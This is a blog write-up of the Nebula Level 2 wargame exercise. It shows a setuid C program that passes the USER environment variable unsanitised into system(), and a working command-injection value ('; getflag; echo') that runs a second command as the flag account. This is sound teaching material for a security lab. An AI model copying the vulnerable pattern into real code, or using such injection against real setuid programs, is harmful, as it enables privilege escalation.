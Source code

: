 ```yaml
---
layout: post
title:  "Exploit Excercises - Nebula: Level 2"
date:   2016-07-30 12:32:00 +0200
categories: security exercises
---
```


> There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

~~~ c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
~~~

* * *

This level follows the same patterns as the previous one, although one could argue this one is more obvious.

The environment variable `USER` is passed as an argument to `/bin/echo`. Note that there's no way for us to change which `echo` binary is called this time since the absolute path is used!

Anyway, the exploit is done by setting the user variable to something like this:

~~~ bash
level02@nebula:~$ export USER="; getflag; echo"
level02@nebula:~$ /home/flag02/flag02
about to call system("/bin/echo ; getflag; echo is cool")

You have successfully executed getflag on a target account
is cool
~~~

We terminate the first `echo` command with a semicolon, then we call the `getflag` command, and adds another echo to avoid syntax errors.
